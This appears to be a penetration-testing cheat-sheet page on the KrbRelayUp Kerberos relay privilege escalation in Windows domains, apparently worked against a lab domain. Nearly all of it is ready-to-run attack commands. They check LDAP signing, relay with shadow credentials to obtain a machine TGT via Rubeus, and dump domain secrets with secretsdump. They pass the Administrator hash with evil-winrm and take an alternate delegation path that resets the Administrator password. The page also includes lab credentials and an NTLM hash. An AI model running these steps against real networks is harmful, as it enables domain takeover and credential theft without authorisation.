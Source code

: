 ```yaml
---
description: >-
  This is essentially a universal no-fix local privilege escalation in windows
  domain environments where LDAP signing is not enforced (the default settings).
---
```


# KrbRelayUp

{% embed url="https://www.microsoft.com/en-us/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/" %}

## Enumeration&#x20;

_Tools:_ [_cme (crackmapexec)_ ](https://github.com/byt3bl33d3r/CrackMapExec)

{% code overflow="wrap" %}
```bash
# Check if LDAP signing is not enforced
cme ldap bruno.vl -u 'svc_scan' -p 'Sunshine1' -M ldap-checker

# Check if we can use a shadow credential attack. We can abuse shadow credentials if PKINT is supported by DC, through cme we can verify the machine qouta

cme ldap bruno.vl -u 'svc_scan' -p 'Sunshine1' -M maq

# Get CLSIDs
c980e4c2-c178-4572-935d-a8a429884806
90f18417-f0f1-484e-9d3c-59dceee5dbd8
03ca98d6-ff5d-49b8-abc6-03dd84127020
d99e6e73-fc88-11d0-b498-00a0c90312f3 (certsrv.exe)
42cbfaa7-a4a7-47bb-b422-bd10e9d02700
000c101c-0000-0000-c000-000000000046
1b48339c-d15e-45f3-ad55-a851cb66be6b
49e6370b-ab71-40ab-92f4-b009593e4518
50d185b9-fff3-4656-92c7-e4018da4361d
3c6859ce-230b-48a4-be6c-932c0c202048 (trusted installer service)

# https://vulndev.io/cheats-windows/
```
{% endcode %}

## Attack with Shadow Account

_Purpose: Create a shadow account for existing machine account and abuse it to get a TGT for Administrator_

_Tools:_ [_KrbRelayUp.exe_](https://github.com/Dec0ne/KrbRelayUp)_,_ [_Rubeus.exe_](https://github.com/GhostPack/Rubeus)_,_[ _impacket_](https://github.com/fortra/impacket)&#x20;

{% code overflow="wrap" %}
```bash
# KrbRelayUp attack for shadow account with certificate 
.\KrbRelayUp.exe full -m shadowcred -f -cls d99e6e73-fc88-11d0-b498-00a0c90312f3 -p 10246
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Get tgt 
Rubeus.exe asktgt /user:<DC name> /certificate:<base 64 of certificate> /password:<Certificate Password> /enctype:<PKINIT etype> /nowrap

PS> .\Rubeus.exe asktgt /user:brunodc$ /certificate:MIIKSA...<snip> /password:xP9-kA9#oX0# /enctype:AES256 /nowrap 

# Ensure that the ticket is issued to the machine account. 
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Conver the ticket 
# copy and paste the base64 ticket to a bruno_ticket file 
cat ./bruno_ticket | base64 -d > bruno_ticket.kirbi
ticketConverter.py bruno_ticket.kirbi bruno_ticket.ccache 
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Secretdump
export KRB5CCNAME=./bruno_ticket.ccache
secretsdump.py 'brunodc$'@brunodc.bruno.vl -k -no-pass
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

```bash
# Access with Administrator
evil-winrm -u Administrator -H 13735c7d60b417421dc6130ac3e0bfd4 -i $RHOST
```

## With Resource Based Constrained Delegation

_Purpose: Create a new machine account and abuse it to reset the Administrator's password_

_Tools:_ [_KrbRelay.exe_](https://github.com/cube0x0/KrbRelay)_,_ [_Sharpmad.exe_ ](https://github.com/Kevin-Robertson/Sharpmad)

{% code overflow="wrap" %}
```bash
# Create a new machine account 
./Sharpmad.exe MAQ -Action new -MachineAccount evil -MachinePassword Pass.123
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Get the SID of new account
PS> $o = ([ADSI]"LDAP://CN=evil,CN=Computers,DC=bruno,DC=vl").objectSID 
PS> (New-Object System.Security.Principal.SecurityIdentifier($o.value, 0)).Value
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Attack

./KrbRelay.exe -spn ldap/brunodc.bruno.vl -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3 -rbcd <new machine account's SID> -ssl -port 10246 -reset-password administrator Password@@
```
{% endcode %}

```bash
# Access with Administrator
evil-winrm -u Administrator -p Password@@ -i $RHOST
```

